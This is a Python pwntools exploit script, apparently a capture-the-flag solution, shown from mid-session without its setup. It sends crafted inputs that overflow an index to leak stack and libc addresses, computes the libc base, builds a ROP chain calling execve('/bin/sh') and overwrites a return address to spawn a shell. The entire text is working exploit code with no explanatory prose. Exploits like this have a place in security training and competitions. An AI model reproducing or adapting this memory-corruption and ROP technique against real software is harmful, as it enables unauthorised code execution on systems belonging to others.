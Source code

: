 ```python
stream.sendlineafter(b"?", b"10")
stream.sendlineafter(b"?", b"7")

stream.sendlineafter(b"?", b"A"*9 + bytes([0xfe]))
stream.sendlineafter(b"?\n", b"P" * 9 + b'\xfe' + b'p' * (idx_offset_from_1 - 10) + b"\xff") # skip input

def got_char(stream):
    stream.readuntil(b" ")
    word = stream.read(1)
    stream.read(1) # skip space

    return word

def got_string(stream, num):
    return b"".join([got_char(stream) for _ in range(num)])

got = got_string(stream, 10)
got = got_string(stream, 0xfe)


print(f"{got=}")

ret_offset_from_1 = 0x8c

start_main_ret = unpack(got[ret_offset_from_1: ][: 8])
stack = unpack(got[0xac: ][: 8])

libc_base = start_main_ret - 0x29d90
libc.address = libc_base

print(f"{got=}")
print(f"stack = {hex(stack)}")
print(f"libc_base = {hex(libc_base)}")

rop = ROP(libc)

rop.execve(next(libc.search(b"/bin/sh\x00")), 0, 0)

chain = rop.chain() + b'\x00' * 4

idx_offset_from_2 = idx_offset_from_1 - 10
ret_offset_from_2 = ret_offset_from_1 - 10
payload = b'P' * 9 + b'\xfe' + b'p' * (idx_offset_from_2 - 10) + p8(ret_offset_from_2 - 1) + chain
payload += b'p' * (0xff - (ret_offset_from_2 + len(chain)) - 1)

stream.sendlineafter(b"?\n", payload)

idx_offset_from_3 = idx_offset_from_2 - 10

payload = b'R' * 9 + b'\x01'
payload += b'r' * ( ((7 - 3 + 1) * 10 - 1) - len(payload) )

payload += b'\x01' + b'r'
payload += (idx_offset_from_3 - len(payload)) * b'R'
payload += p8(0xff)

info(f"{len(payload)=}")

stream.sendlineafter(b"?\n", payload)

stream.sendlineafter(b"?", b"r")

```